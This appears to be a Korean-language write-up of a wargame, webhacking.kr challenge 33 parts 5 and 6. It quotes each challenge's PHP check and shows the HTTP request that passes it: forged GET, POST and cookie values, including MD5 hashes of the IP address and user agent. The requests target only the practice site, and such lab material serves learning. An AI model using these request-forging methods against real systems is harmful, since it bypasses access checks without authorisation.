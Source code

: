 다음 공격 대상은 `https://webhacking.kr/challenge/bonus-6/md555.php` 이다.

<br>

### Challenge 5
`https://webhacking.kr/challenge/bonus-6/md555.txt`

```php
<hr>
Challenge 33-5<br>
<a href=md555.txt>view-source</a>
<hr>
<?php
if($_GET['imget'] && $_POST['impost'] && $_COOKIE['imcookie']) echo "<a href=???>Next</a>";
else echo "Wrong";
?>
```
GET, POST, COOKIE 값이 세팅되야 하는 문제이다. 메소드를 둘다 사용하는 경우를 생각해본 적이 없다. 하지만 기본에 충실하여 GET은 url로, POST는 패킷 body에, COOKIE는 개발자 도구로 설정해보자.

```http
POST /challenge/bonus-6/md555.php?imget=1 HTTP/1.1
Cookie: PHPSESSID=; imcookie=1
...
...
...
impost=1
```
다음 공격 대상은 `https://webhacking.kr/challenge/bonus-6/gpcc.php` 이다.

<br>

### Challenge 6
`https://webhacking.kr/challenge/bonus-6/gpcc.txt`
```php
<hr>
Challenge 33-6<br>
<a href=gpcc.txt>view-source</a>
<hr>
<?php
if($_COOKIE['test'] == md5($_SERVER['REMOTE_ADDR']) && $_POST['kk'] == md5($_SERVER['HTTP_USER_AGENT'])) echo "<a href=???>Next</a>";
else echo "hint : {$_SERVER['HTTP_USER_AGENT']}";
?>

```
"test" 쿠키 값을 접속 IP정보의 md5 해시 값으로, "kk" 파라미터를 POST 방식으로 접속 브라우저의 정보의 md 5해시값으로 전달해야 한다.

```http
POST /challenge/bonus-6/gpcc.php HTTP/1.1
Host: webhacking.kr
Cookie: PHPSESSID=; test=28fed3ef23de844dbbf61d38c7cad26f
...
...
...
kk=eab83d263c39dcece3e73f92ae2214fc
```
다음 공격 대상은 `https://webhacking.kr/challenge/bonus-6/wtff.php` 이다.
